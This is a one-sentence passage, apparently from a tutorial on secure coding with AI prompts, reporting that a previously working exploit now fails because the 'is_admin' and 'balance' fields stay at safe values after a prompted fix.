  The exploit now fails — `is_admin` is `false` and `balance` is `0`, so the precise, requirement-driven prompt produced a secure, verified fix on the first try.
